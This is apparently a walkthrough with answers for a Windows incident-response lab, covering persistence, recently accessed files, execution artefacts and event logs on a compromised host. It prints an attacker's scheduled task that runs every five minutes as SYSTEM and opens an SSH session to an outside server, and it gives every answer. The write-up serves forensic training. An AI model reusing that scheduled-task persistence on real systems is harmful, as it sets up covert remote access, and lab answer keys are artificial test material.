







> # Compromised Windows Analysis

## Summary
- [Summary](#summary)
  - [Task 1 - Introduction](#task-1---introduction)
  - [Task 3 - Timeline Explorer for Visualization](#task-3---timeline-explorer-for-visualization)
  - [Task 4 - Investigating Persistence](#task-4---investigating-persistence)
  - [Task 5 - Investigating Recently Accessed Files](#task-5---investigating-recently-accessed-files)
  - [Task 6 - Investigating File Execution](#task-6---investigating-file-execution)
  - [Task 7 - The Dig of Executable](#task-7---the-dig-of-executable)
  - [Task 8 - Windows Event Log Analysis](#task-8---windows-event-log-analysis)

### Task 1 - Introduction
1. What is the user's name whose system generated suspicious SSH traffic to a malicious IP?<br>
    > Joe found that Aashir was unaware of this connection and observed a prompt on the screen after every minute. 

    **Answer:** Aashir 

### Task 3 - Timeline Explorer for Visualization
1. Which tool makes it easier to analyze CSV files?<br>
    > Timeline Explorer is a tool by Eric Zimmerman that allows you to view CSV files easily.

    **Answer:** Timeline Explorer

### Task 4 - Investigating Persistence
1. What is the name of the scheduled task created by the attacker?<br>
    Navigate to `C:\Windows\System32\Tasks`.<br>
    <br>
    **Answer:** CnC

1. What is the IP of the malicious server to which SSH requests are made?<br>
    Get all information of this task.<br>
    ```
    C:\Users\Administrator>schtasks /query /tn cnc /fo list /v

    Folder: \
    HostName:                             CORP
    TaskName:                             \cnc
    Next Run Time:                        5/11/2025 5:04:14 AM
    Status:                               Ready
    Logon Mode:                           Interactive/Background
    Last Run Time:                        5/11/2025 4:59:15 AM
    Last Result:                          255
    Author:                               N/A
    Task To Run:                          cmd.exe /c ssh mike@101.55.125.10 -t
    Start In:                             N/A
    Comment:                              N/A
    Scheduled Task State:                 Enabled
    Idle Time:                            Disabled
    Power Management:
    Run As User:                          SYSTEM
    Delete Task If Not Rescheduled:       Disabled
    Stop Task If Runs X Hours and X Mins: 72:00:00
    Schedule:                             Scheduling data is not available in this format.
    Schedule Type:                        One Time Only, Minute
    Start Time:                           10:29:14 AM
    Start Date:                           3/29/2025
    End Date:                             N/A
    Days:                                 N/A
    Months:                               N/A
    Repeat: Every:                        0 Hour(s), 5 Minute(s)
    Repeat: Until: Time:                  None
    Repeat: Until: Duration:              Disabled
    Repeat: Stop If Still Running:        Disabled
    ```
    **
    **Answer:** 101.55.125.10

### Task 5 - Investigating Recently Accessed Files
1. What is the name of the RAR file created during the attack?<br>
    <br>
    **Answer:** Cursed.rar

1. When was the RAR file created in the system? Format YYYY-MM-DD HH:MM:SS<br>
    <br>
    **Answer:** 2025-03-29 10:26:07

### Task 6 - Investigating File Execution
1. What is the name of the malicious executable file?<br>
    <br>
    **Answer:** cipher.exe

1. How many times was this file executed?<br>
    The field `Run Count`.<br>
    **Answer:** 2

1. When was the last time that this file was executed? Format YYYY-MM-DD HH:MM:SS<br>
    The field `Last Run`.<br>
    **Answer:** 2025-03-29 10:29:12

### Task 7 - The Dig of Executable
1. What is the full path of the malicious file?<br>
    <br>
    **Answer:** c:\users\administrator\desktop\cursed\cipher.exe

1. What is the SHA1 hash of this file?<br>
    **Answer:** 5b15c9d9ef36cae9f24ce63eebd190ac381bb734

### Task 8 - Windows Event Log Analysis
1. When was Defender disabled? Answer in 12 hour clock format. e.g. hours:minutes:seconds AM/PM<br>
    <br>
    **Answer:** 10:25:14 AM

1. What is the IP address of the attacker's system?<br>
    <br>
    **Answer:** 10.11.90.211
